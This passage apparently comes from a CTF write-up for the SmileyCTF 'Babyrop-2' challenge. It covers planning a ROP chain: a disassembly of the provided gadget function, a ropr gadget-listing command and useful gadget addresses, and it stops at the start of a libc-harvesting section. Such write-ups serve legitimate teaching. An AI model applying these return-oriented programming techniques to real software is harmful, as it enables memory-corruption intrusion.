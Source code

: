 Since we have already have `libc.so.6` file. So the knowledge of offsets already known to us. All we have to find proper way to set address inside of `0x404010` .

Sounds like a plan right ? Lets move into it.

### Revisiting the gadgets

The challange creator/creators give us these gadgets. This gadgets will have crucial roles for the `ROP Chain` . ^gadgets-function

```python
gef➤  disassemble gadgets 
Dump of assembler code for function gadgets:
   0x0000000000401176 <+0>:     endbr64
   0x000000000040117a <+4>:     push   rbp
   0x000000000040117b <+5>:     mov    rbp,rsp
   0x000000000040117e <+8>:     pop    rcx
   0x000000000040117f <+9>:     ret
   0x0000000000401180 <+10>:    nop
   0x0000000000401181 <+11>:    pop    rbp
   0x0000000000401182 <+12>:    ret
End of assembler dump.
```

```bash
ropr ./vuln -j -u 
```


The important gadgets for the plan.

```python
0x00401157: add eax, 0x2ec3; add [rbp-0x3d], ebx; nop; ret;
0x0040115c: add [rbp-0x3d], ebx; nop; ret;
0x0040115b: add [rcx], al; pop rbp; ret;
0x00401230: add rsp, 8; ret;
0x0040117a: push rbp; mov rbp, rsp; pop rcx; ret;
0x0040117b: mov rbp, rsp; pop rcx; ret;
0x0040117e: pop rcx; ret;
0x00401181: pop rbp; ret;
0x00401234: ret;
```

### LIBC Harvesting


There are 2 specific gadgets that let us ability to put any value we want. Anything we put on stack these gadgets let us to handle directly.

![67dd8f932a117f348c2fd4bc807c5acb.png](/images/SmileyCTF/SmileyCTF-Babyrop-2/67dd8f932a117f348c2fd4bc807c5acb.png)
